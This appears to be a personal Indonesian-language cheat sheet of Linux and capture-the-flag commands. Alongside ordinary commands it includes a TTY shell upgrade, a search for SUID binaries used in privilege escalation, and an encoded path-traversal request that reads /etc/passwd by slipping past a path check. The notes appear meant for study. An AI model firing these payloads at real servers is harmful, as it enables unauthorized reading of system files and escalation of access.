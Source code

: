 stty echo => mengaktifkan
stty -echo => menonaktifkan
python3 -c "import pty; pty.spawn('/bin/bash')" => menampilkan path di user
stty raw -echo;fg; => reset
find / -perm /4000 2>dev/null
find / -type f -name user.txt 2> /dev/null
whois => deskripsi domain
dig => mencari nama domain beserta ip secara manual

- find -name *.txt => meencari nama file
- find -name test.txt => meencari nama file
- grep "1. " data.txt => menampilkan text yang ada 1. di file data.txt
- &	Operator ini memungkinkan Anda untuk menjalankan perintah di latar belakang terminal Anda.
- &&	Operator ini memungkinkan Anda untuk menggabungkan beberapa perintah bersama-sama dalam satu baris terminal Anda.
- > Operator ini adalah redirector - artinya kita dapat mengambil output dari perintah (seperti menggunakan cat untuk mengeluarkan file) dan mengarahkannya ke tempat lain.
- >>	Operator ini melakukan fungsi yang sama dari operator tetapi menambahkan output daripada mengganti (artinya tidak ada yang ditimpa).>

ls
ll => alternarif ls -al

- karakter dot kedua dienkripsi sebagai %2e, “…/” berubah menjadi “.%2e/” dan berhasil melewati pemeriksaan.
- GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd HTTP/1.1
Host: 127.0.0.1:8080


## sestatus #untuk cek status selinux
### mengaktidkan selinux
- ```setenforce 1```
  atau
- ```nano /etc/selinux/config > SELINUX=enforcing```
